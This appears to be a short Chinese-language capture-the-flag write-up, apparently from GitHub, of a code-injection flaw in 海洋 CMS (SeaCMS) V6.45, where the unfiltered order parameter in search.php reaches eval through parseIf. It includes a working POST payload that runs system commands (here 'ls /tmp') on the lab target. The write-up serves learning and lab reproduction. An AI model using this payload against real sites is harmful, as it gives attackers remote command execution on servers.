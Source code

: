 # 海洋 cms-V6.45 by [scholar](https://github.com/Frivolous-scholar) 

## 概述

该漏洞成因在于 search.php 没有对用户输入内容进行过滤，导致攻击者提交的 order 参数可进入 parseIf 函数中执行 eval。

## 复现

1、首先打开靶场。

![1](./1.png)

2、输入任意内容搜索并抓包。

![2](./2.png)

3、利用 POC 拿到 Flag

```
searchtype=5&order=}{end if}{if:1)$_POST[func]($_POST[cmd]);if(1}{end if}&func=system&cmd=ls /tmp
```

![3](./3.png)